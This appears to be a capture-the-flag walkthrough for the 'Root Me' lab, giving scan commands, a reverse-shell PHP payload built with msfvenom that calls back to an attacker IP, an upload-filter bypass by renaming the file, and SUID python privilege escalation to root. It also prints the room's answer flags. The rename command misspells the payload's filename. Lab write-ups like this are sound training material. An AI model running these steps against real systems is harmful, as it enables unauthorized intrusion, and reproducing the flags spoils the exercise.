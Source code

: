 # Root Me

## Reconnaissance

scan the machine 
``` nmap -sV -T5 -p- 10.10.141.142 -oN service_and_version.txt
```

| Questions | Answers |
|-----------|---------|
| Scan the machine, how many ports are open? | 2 |
| What version of Apache is running ? | 2.4.29 |
| What service is running on port 22 ? | ssh |
| What is the hidden directory ? | /panel/ |

## Getting a Shell

generating a reverse php
```
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.17.48.110 LPORT=4444 R > php_reverse.php

mv php_revrse.php php_revrse.phtml
```

| Questions | Answers |
|-----------|---------|
| user.txt | THM{y0u_g0t_a_sh3ll} |


## Privilege escalation

gettting a shell from meterpreter
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
searching SUID permission 
```
find / -user root -perm /4000
```
escalating root privilage
```
/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
| Questions | Answers |
|-----------|---------|
| Search for files with SUID permission, which file is weird ? | /usr/bin/python |
| root.txt | THM{pr1v1l3g3_3sc4l4t10n} |
